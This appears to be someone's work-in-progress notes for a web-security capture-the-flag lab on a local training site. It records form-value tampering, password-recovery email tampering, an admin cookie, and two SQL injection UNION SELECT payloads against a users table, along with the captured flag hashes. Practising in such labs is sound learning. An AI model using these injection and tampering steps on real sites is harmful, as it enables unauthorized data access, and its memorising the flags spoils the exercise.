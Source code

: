 ### Flag 00

http://localhost:13080/?page=survey
Inspect option of Ben
Change value to 11 (negative didn't work)
03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA

### Flag 01 (WIP)

5 UNION SELECT COUNT(*), NULL FROM users -- 
5 UNION SELECT COUNT(*), first_name FROM users --

### Flag 02

http://localhost:13080/index.php?page=recover
Change webmaster@borntosec.com to whatever
1D4855F7337C0C14B6F44946872C4EB33853F40B2D54393FBE94F49F1E19BBB0

### Flag 03

http://localhost:13080/index.php?page=feedback
Name: a
0FBB54BBF7D099713CA4BE297E1BC7DA0173D8B3C21C1811B916A3A86652724E

### Flag 04 (WIP)

Hashcrack this http://localhost:13080/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f

### Flag 05 (WIP)

a weirdly loaded image http://localhost:13080/index.php?page=media&src=1

### Flag 06 (WIP)

Wtf?
http://localhost:13080/index.php?page=

### Flag 07 (WIP)

cookie I_am_admin